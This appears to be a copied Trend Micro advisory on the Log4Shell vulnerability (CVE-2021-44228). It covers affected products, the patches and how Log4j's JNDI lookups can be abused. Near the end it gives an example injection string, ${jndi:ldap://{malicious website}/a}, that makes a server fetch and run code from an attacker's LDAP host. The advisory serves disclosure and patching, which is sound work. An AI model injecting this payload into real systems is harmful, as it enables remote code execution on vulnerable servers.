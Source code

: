 # Patch Now Apache Log4j Vulnerability Called Log4Shell Actively Exploited
### Log4Shell, also known as CVE-2021-44228, was first reported privately to Apache on November 24 and was patched on December 9. It affects Apache Struts, Apache Solr, Apache Druid, Elasticsearch, Apache Dubbo, and VMware vCenter.

## Information:
+ Source: Trend Micro
+ Link: https://www.trendmicro.com/en_us/research/21/l/patch-now-apache-log4j-vulnerability-called-log4shell-being-acti.html
+ Date: 2021-12-13
+ Author: None


## Article:
![Article Image](https://www.trendmicro.com/content/dam/trendmicro/global/en/research/21/l/patch-now-apache-log4j-vulnerability-called-log4shell-being-actively-exploited/log4shell-main.jpg)





A vulnerability in [Apache Log4j,](https://logging.apache.org/log4j/2.x/) a widely used logging package for Java has been found. The vulnerability, which can allow an attacker to execute arbitrary code by sending crafted log messages, has been identified as [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) and given the name [Log4Shell.](https://www.lunasec.io/docs/blog/log4j-zero-day/) It was first reported privately to Apache on November 24 and was patched with version 2.15.0 of Log4j on December 9. It affects Apache Struts, Apache Solr, Apache Druid, Elasticsearch, Apache Dubbo, and VMware vCenter. Since then, it has been disclosed that in certain non-default conditions, the original patch was incomplete; this was designated as [CVE-2021-45046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45046) and a new version of Log4j, 2.16.0, has been released.


We have developed a [Log4j vulnerability tester](https://log4j-tester.trendmicro.com/), a web-based tool that can help identify vulnerable server applications. We’ve compiled a list of our products that can help with protection and detection on [our support page](https://success.trendmicro.com/solution/000289940) as well as information pertaining to our own products being vulnerable or not.


Whenever *${some\_expression}* can be found, Java lookup mechanisms find the value of expression and replaces it. Some of the lookups supported by Log4j are jndi, sys, env, java, lower, and upper. JNDI lookup supports protocols such as LDAP, RMI, DNS, and IIOP. As we discuss in the following, an attacker could inject JNDI expressions in logs.


For example, an attacker can do this via HTTP requests to a web server; notably, this is the most common attack vector that we have seen currently. The *lookup* method will then download and execute *malicious.class* placed in an attacker-controlled LDAP server. In its most basic form, all the attacker has to do is to plant the following expression in the logs:


${jndi:ldap://{malicious website}/a}  
